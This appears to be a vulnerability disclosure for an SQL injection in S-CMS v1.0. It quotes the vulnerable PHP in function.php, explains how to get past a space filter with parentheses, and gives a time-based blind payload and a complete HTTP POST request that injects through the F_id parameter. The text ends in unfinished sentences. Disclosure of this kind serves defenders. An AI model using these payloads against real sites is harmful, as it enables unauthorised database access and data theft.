



## Vulnerability summary

​	Vulnerability Name:  S-CMS v1.0 SQLi Vulnerability
​    Vulnerability finder：mntn@knownsec.com
​    Product Home：https://www.s-cms.cn/download.html
​    Software link： https://cdn.shanling.top/file/4.edu.php.zip
​    Version: v 1.0

## Details

Error is in file: 4.edu.php\conn\function.php

Code：

```php
case "form_addmenu":

$sql="select * from ".TABLE."menu where U_sub=0 order by U_order desc limit 1";
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
if(mysqli_num_rows($result) > 0) {
$U_order=$row["U_order"];
}
$sql="select * from ".TABLE."form where F_id=".$_GET["F_id"];
$result = mysqli_query($conn, $sql);
$row = mysqli_fetch_assoc($result);
if(mysqli_num_rows($result) > 0) {
$F_title=$row["F_title"];
$F_entitle=$row["F_entitle"];
}
mysqli_query($conn,"insert into ".TABLE."menu(U_title,U_entitle,U_order,U_sub,U_ico,U_type,U_typeid) values('".$F_title."','".$F_entitle."',".($U_order+1).",0,'bars','form',".$_REQUEST["F_id"].")");
echo "success|添加成功!";
lg("新增表单到主菜单（ID：".$_GET["F_id"]."）");
die();
break;
```

`case: "form_addmenu"`is composed of `action` and `type`, and is executed by switch...case. Because of the protection, `spaces, -, *` are replaced with `_`, so use parentheses to bypass the space filter.

Insert injection in 16 lines, the accepted parameters are passed in through REQUEST, and the select statement in line 9 is passed in by GET, so first use the Post method to pass the parameters, not to control the select statement, the resulting payload is As mentioned above.

Query data by time blind：

```sql
(select(if(length(database())=8,sleep(5),1))))#
```
payload：

```
POST /4.edu.php/admin/ajax.php?action=addmenu&type=form HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Connection: close
Referer: http://localhost/4.edu.php/admin/ajax.php?action=addmenu&type=form
Cookie: authx=; count_all=0; userx=; passx=; add=%E4%B8%AD%E5%9B%BD; user=admin; pass=7b19569b9317927e14152e312767a351; A_type=1; auth=1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1; newsauth=all; productauth=all; textauth=all; formauth=all; bbsauth=all; lang=1ccd6812fc6526259c27c108a3a932225069539c%7Een; PHPSESSID=va94ir8ganf5t19mccv8oqqmu1; Hm_lvt_b60316de6009d5654de7312f772162be=1570675175; Hm_lpvt_b60316de6009d5654de7312f772162be=1570675490
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 127.0.0.2

F_id=(select(version())))#
```


The last closed SQL statement is as follows：



Of course, because it is REQUEST, there is no problem with GET (remember code#)：




